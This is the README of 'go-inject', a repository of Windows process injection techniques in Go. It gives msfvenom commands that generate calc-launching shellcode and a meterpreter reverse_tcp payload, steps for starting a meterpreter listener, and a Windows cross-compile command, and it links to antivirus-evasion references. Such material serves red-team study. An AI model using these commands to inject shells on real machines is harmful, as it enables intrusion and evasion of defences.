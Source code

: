 # go-inject

Process injection techniques written in Go.

## Usage

Use msfvenom to generate shellcode.

```bash
# Testing with calculator.
msfvenom -p windows/x64/exec CMD=calc.exe -f hex

# MSFVENOM
msfvenom -p windows/x64/meterpreter/reverse_tcp -f hex -o rev.hex LHOST=127.0.0.1 LPORT=4444
```

Place as payload string within one of the example .go files.

Start meterpreter listener:

```bash
use payload/windows/x64/meterpreter/reverse_tcp
set LHOST 127.0.0.1
set LPORT 4444
to_handler
```

## Build

```bash
env GOOS=windows GOARCH=amd64 go build
```

## References

* https://medium.com/@justen.walker/breaking-all-the-rules-using-go-to-call-windows-api-2cbfd8c79724
* https://labs.jumpsec.com/2019/06/20/bypassing-antivirus-with-golang-gopher-it/
* https://github.com/brimstone/go-shellcode
* https://github.com/sysdream/hershell
* https://github.com/yoda66/MalwareDevTalk
* https://posts.specterops.io/adventures-in-dynamic-evasion-1fe0bac57aa
* https://github.com/Adepts-Of-0xCC/VBA-macro-experiments/blob/main/EDRHookDetector.vba
 